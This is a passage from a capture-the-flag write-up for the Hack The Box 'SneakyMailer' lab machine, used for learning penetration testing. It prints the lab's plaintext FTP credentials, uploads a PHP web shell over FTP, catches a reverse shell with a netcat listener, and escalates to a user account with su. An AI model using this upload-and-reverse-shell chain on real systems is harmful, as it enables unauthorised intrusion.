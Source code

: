 ### Evolution

We can use evolution email client to access the mail box of `paul`

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/sneaky/mail1.png){: .align-center}

We can see two mails in the sent items folder. One contains the credentials for `developer` and another for a user named `low` regarding `PyPI` service.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/sneaky/mail2.png){: .align-center}

### FTP

We can login to `ftp` using the credentials of the `developer`. 

The files in `ftp` belongs to the vhost `dev.sneakymailer.htb`. We can upload a `php` file and open it in browser to get a shell.

```bash
kali@kali:~/Desktop/htb/sneaky$ ftp sneakycorp.htb
Connected to sneakycorp.htb.
220 (vsFTPd 3.0.3)
ftp> user developer m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Jun 30 01:15 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (14.9246 MB/s)
```

There seems to be a cleanup script running in the background. We will have to upload the file and open it in browser immediately to get the a shell.

```bash
kali@kali:~/Desktop/htb/sneaky$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.29] from sneakycorp.htb [10.10.10.197] 54676
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 22:44:12 up 10:11,  0 users,  load average: 0.24, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@sneakymailer:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@sneakymailer:/$ su developer
su developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

developer@sneakymailer:/$ id
id
uid=1001(developer) gid=1001(developer) groups=1001(developer)
developer@sneakymailer:/$
```